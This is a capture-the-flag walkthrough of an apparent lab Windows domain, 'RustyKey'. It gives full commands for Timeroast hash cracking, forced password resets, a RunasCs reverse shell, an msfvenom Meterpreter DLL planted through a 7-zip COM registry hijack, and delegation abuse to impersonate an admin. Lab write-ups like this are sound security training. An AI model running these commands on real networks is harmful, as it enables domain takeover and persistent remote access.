

# RustyKey

Difficulty: Hard
OS: Windows
Category: Offensive
Date: 2026-02-24T05:14:03.642Z


As is common in real life Windows pentests, I'll start the RustyKey box with credentials for the following account: **rr.parker / 8#t5HE8L!W3A**

### Scanning

```bash
Nmap scan report for 10.129.191.241
Host is up (0.25s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-01 09:37:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-01T09:37:30
|_  start_date: N/A
|_clock-skew: 7h59m59s

```

I test for `Simple Bind` authentication by using `ldapsearch` tool. But for CTF purpose, this machine allows it.

```bash
ldapsearch -x -H ldap://10.129.191.241 -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b 'dc=rustykey,dc=htb' "(objectClass=user)" userPrincipalName
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=rustykey,dc=htb> with scope subtree
# filter: (objectClass=user)
# requesting: userPrincipalName 
#

# Administrator, Users, rustykey.htb
dn: CN=Administrator,CN=Users,DC=rustykey,DC=htb

# Guest, Users, rustykey.htb
dn: CN=Guest,CN=Users,DC=rustykey,DC=htb

# DC, Domain Controllers, rustykey.htb
dn: CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb

# krbtgt, Users, rustykey.htb
dn: CN=krbtgt,CN=Users,DC=rustykey,DC=htb

# Support-Computer1, Computers, Support, rustykey.htb
dn: CN=Support-Computer1,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer2, Computers, Support, rustykey.htb
dn: CN=Support-Computer2,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer3, Computers, Support, rustykey.htb
dn: CN=Support-Computer3,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer4, Computers, Support, rustykey.htb
dn: CN=Support-Computer4,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer5, Computers, Support, rustykey.htb
dn: CN=Support-Computer5,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Finance-Computer1, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer1,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer2, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer2,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer3, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer3,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer4, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer4,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer5, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer5,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# IT-Computer1, Computers, IT, rustykey.htb
dn: CN=IT-Computer1,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer2, Computers, IT, rustykey.htb
dn: CN=IT-Computer2,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer3, Computers, IT, rustykey.htb
dn: CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer4, Computers, IT, rustykey.htb
dn: CN=IT-Computer4,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer5, Computers, IT, rustykey.htb
dn: CN=IT-Computer5,OU=Computers,OU=IT,DC=rustykey,DC=htb

# rr.parker, Users, rustykey.htb
dn: CN=rr.parker,CN=Users,DC=rustykey,DC=htb
userPrincipalName: rr.parker@rustykey.htb

# mm.turner, Users, rustykey.htb
dn: CN=mm.turner,CN=Users,DC=rustykey,DC=htb
userPrincipalName: mm.turner@rustykey.htb

# bb.morgan, Users, IT, rustykey.htb
dn: CN=bb.morgan,OU=Users,OU=IT,DC=rustykey,DC=htb
userPrincipalName: bb.morgan@rustykey.htb

# gg.anderson, Users, IT, rustykey.htb
dn: CN=gg.anderson,OU=Users,OU=IT,DC=rustykey,DC=htb
userPrincipalName: gg.anderson@rustykey.htb

# dd.ali, Users, Finance, rustykey.htb
dn: CN=dd.ali,OU=Users,OU=Finance,DC=rustykey,DC=htb
userPrincipalName: dd.ali@rustykey.htb

# ee.reed, Users, Support, rustykey.htb
dn: CN=ee.reed,OU=Users,OU=Support,DC=rustykey,DC=htb
userPrincipalName: ee.reed@rustykey.htb

# nn.marcos, Users, rustykey.htb
dn: CN=nn.marcos,CN=Users,DC=rustykey,DC=htb
userPrincipalName: nn.marcos@rustykey.htb

# backupadmin, Users, rustykey.htb
dn: CN=backupadmin,CN=Users,DC=rustykey,DC=htb
userPrincipalName: backupadmin@rustykey.htb

# search reference
ref: ldap://ForestDnsZones.rustykey.htb/DC=ForestDnsZones,DC=rustykey,DC=htb

# search reference
ref: ldap://DomainDnsZones.rustykey.htb/DC=DomainDnsZones,DC=rustykey,DC=htb

# search reference
ref: ldap://rustykey.htb/CN=Configuration,DC=rustykey,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 31
# numEntries: 27
# numReferences: 3
```

The output above is a proof that it allows `Simple Bind` authentication.

I set up my `/etc/krb5.conf` first, before I proceed.

```bash
[libdefaults]
        default_realm = RUSTYKEY.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = false
        ticket_lifetime = 24h
        forwardable = yes
[realms]
				RUSTYKEY.HTB = {
                kdc = 10.129.191.241
        }
[domain_realm]
				.rustykey.htb = RUSTYKEY.HTB
        rustykey.htb = RUSTYKEY.HTB
```

### Enumeration

I use the **TGT → TGS → authentication** flow described in this Kerberos reference:

[Kerberos (I): How does Kerberos work? - Theory](https://www.tarlogic.com/blog/how-kerberos-works/)

I get the `TGT` of the user `rr.parker`. The TGT of this user can be used for `TGS` as the encryptions for the TGT are decrypted because I have a password.

```bash
getTGT.py -dc-ip 10.129.191.241 rustykey.htb/rr.parker:'8#t5HE8L!W3A'
```

I set the Kerberos ticket as the active session

```bash
export KRB5CCNAME=rr.parker.ccache
```

I check the active Kerberos ticket



Now that everything is setup, I can now run `bloodhound-python` .

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -c all -d rustykey.htb -ns 10.129.191.241 --zip -k -dns-timeout 30
```


I inspect the shortest path from `rr.parker` in BloodHound and examine the permissions on each node.

- The account `IT-COMPUTER3$` can add itself to `HELPDESK`
- `HELPDESK` group can change the password for the following users:
    - bb.morgan
    - gg.anderson
    - dd.ali
    - ee.reed
- `MM.TURNER` has `AddAllowedToAct` rights on `DC.RUSTKEY.HTB`
- The following users can connect via `evil-winrm`:
    - bb.morgan
    - gg.anderson
    - ee.reed

### Foothold to User

I investigate Timeroast using the linked tool, with NetExec as another option for collecting the responses.

[https://github.com/SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast)

```bash
python3 timeroast.py 10.129.191.241 -o rustkey.hashes
```

Before cracking the responses, I address the wordlist-decoding error I encountered in `timecrack.py`.

- **Fix for Timecrack script**

    This may be late but I'll leave this to anyone who is still solving.

    If I'm using

    **timeroast.py**

    and used

    **timecrack.py**

    to crack the hash.  I'll get an error

    ```
    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 962: invalid continuation byte
    ```

    when decoding.

    To fix it, I modify

    **timecrack.py**

    script, since this is just a few lines of python code.
    (1) I find the line

    ```
    argparser.add_argument('dictionary', type=FileType('r'), help='Line-delimited password dictionary')
    ```

    (2) I change it to

    ```
    argparser.add_argument('dictionary', type=lambda f: open(f, encoding='latin-1'), help='Line-delimited password dictionary')
    ```

    OPTIONAL
    I can choose to ignore the error for invalid characters only

    ```
    argparser.add_argument('dictionary', type=lambda f: open(f, encoding='utf-8', errors='ignore'), help='Line-delimited password dictionary')
    ```

    What works for me best was the first one.

    WHY THE ERROR? the

    **timecrack.py**

    passes the following argument

    ```
    python3 timecrack.py <hash file> <wordlist>
    ```

    , the wordlist used here is

    ```
    rockyou.txt
    ```

    . The wordlist contains

    **non-UTF-8 bytes**

    which triggers the error.


Then I crack the hashes with the script.

```bash
python3 timecrack.py rustykey.hashes rockyou.txt

# Output: Cracked RID 1125 password: Rusty88!
```

I look into my `bloodhound-python` and search for the user who has the RID ending with **1125**.


I request a TGT for `IT-COMPUTER3$`:

```bash
getTGT.py -dc-ip 10.129.191.241 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```

I set the machine account’s Kerberos ticket as default

```bash
export KRB5CCNAME=IT-COMPUTER3$.ccache
```

I add the machine account to the group `HELPDESK`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb add groupMember 'HELPDESK' IT-COMPUTER3$
```

I remove IT from Protected Objects (Refer to bloodhound, IT is part of Protected Objects)

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'IT'

```

I change the password for the user `bb.morgan`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'Password123!'
```

I request a TGT for `bb.morgan`:

```bash
getTGT.py -dc-ip 10.129.191.241 'rustykey.htb/bb.morgan:Password123!'
```

I authenticate with the Kerberos ticket:

```bash
evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb
```

Then I get the `user.txt` flag at `Desktop`

### Root

I download and read the PDF found alongside `user.txt` on the Desktop.


I move on to `ee.reed`, using `IT-COMPUTER3$` to change that account's password.

```bash
export KRB5CCNAME=IT-COMPUTER3$.ccache
```

I recheck group membership if the machine has reset its state. If an operation reports that the membership already exists, I continue with the next step.

I add the `IT-COMPUTER3$` to `HELPDESK`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb add groupMember 'HELPDESK' IT-COMPUTER3$
```

I'll then remove the group `SUPPORT` to manipulate the user `ee.reed` and change its password. Both `IT` and `SUPPORT` are part of this group, `Protected Objects` is a security group to prevent the users under these groups to prevent unauthorized access.

```bash
bloodyAD --kerberos --dc-ip 10.129.191.241 --host dc.rustykey.htb -d rustykey.htb -u IT-COMPUTER3$ -p 'Rusty88!' remove groupMember "CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB" "SUPPORT"
```

I set a new password for `ee.reed`

```bash
bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'Password123!'
```

I test authentication with `evil-winrm`:

```bash
evil-winrm -i dc.rustykey.htb -u ee.reed -r rustykey.htb
```

If I try to authenticate, I'll notice that `ee.reed` does not allow authenticating on `evil-winrm` so I'll find a workaround with this.

I download `RunasCs.cs` by cloning this repository

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

### Pivoting

I use `bb.morgan` to pivot, I request a `TGT` ticket for this user.

```bash
export KRB5CCNAME=bb.morgan.ccache
```

I authenticate to `evil-winrm` as `bb.morgan`:

```bash
evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb
```

I create a directory for my tools. Then I upload `RunasCs.cs` to the target.

```bash
mkdir C:\Tools
cd C:\Tools

upload RunasCs.cs
```

I'll make this `.cs` file into a `.exe` with the command below.

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
```

I set up a listener either `msfconsole` or `netcat`

```bash
msfconsole -q
use multi/handler
set LHOST <vpn ip>
run

# DO NOT CONFIGURE THE PAYLOAD, LEAVE IT AS IT IS
```

Then I execute the `RunasCs.exe`

```bash
.\RunasCs.exe ee.reed Password123! cmd.exe -r 10.10.x.x:4444
```

Now that I have the full permission as `ee.reed` I'll move on to the user `bb.turner`. I setup a DLL-based Meterpreter backdoor via a COM hijacking vulnerability.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4455 -f dll -o rev.dll
```

I can check the `CLSID` and notice that there’s a 7-zip installed on the machine. I'll do a DLL hijacking within this registry key for 7-zip.

```bash
msfconsole -q
use multi/handler
set LHOST <vpn ip>
set LPORT 4455
set payload windows/x64/meterpreter/reverse_tcp
run
```

I upload `rev.dll` to my tools directory on the target and configure the registry entry below:

```bash
upload rev.dll

reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Tools\rev.dll" /f
```

I'll now be logged in as `MM.TURNER`, this user has `AllowedToAct` on `DC.RUSTKEY.HTB`

After the payload runs, I continue promptly because the resulting shell has been short-lived in my tests.

I switch to PowerShell and configure delegation for `IT-COMPUTER3$`:

```bash
Powershell

Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Now that I have delegation from `MM.TURNER` with `IT-COMPUTER3$` I'll now impersonate `backupadmin`

```bash
impacket-getST -spn 'cifs/DC.rustkey.htb' -impersonate backupadmin -dc-ip 10.129.191.241 -k 'RUSTYKEY.HTB\IT-COMPUTER3$:Rusty88!'
```

I export the received ticket as a Kerberos cache

```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

I use `wmiexec.py` with the delegated ticket to access the target:

```bash
wmiexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
```

Then I retrieve `root.txt` at `Desktop`
